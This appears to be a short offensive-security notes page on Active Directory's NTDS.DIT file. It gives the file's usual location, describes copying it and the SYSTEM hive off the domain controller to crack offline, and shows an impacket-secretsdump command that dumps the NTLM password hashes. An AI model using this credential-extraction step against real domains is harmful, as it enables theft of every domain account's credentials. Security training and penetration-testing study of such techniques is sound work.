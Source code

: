 # NTDS Tom Foolery

## Introduction

NTDS, specifically the NTDS.DIT file is not just a file within Active Directory; it is the core of the entire infrustructure. It serves as a centralized repository for all the domain’s objects and their associated information.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## NTDS.DIT Location

The NTDS.DIT file is located typically at: `C:\Windows\NTDS\Ntds.dit`. Though Administrators can specify alternate locations on setup.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Extracting Password Hashes

Once we have located NTDS.DIT & SYSTEM, we can exfiltrate the file back to our host and crack if offline.&#x20;

### Impacket-Secretsdump

```bash
kali@kali$ impacket-secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```

## The only thing left to do is:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
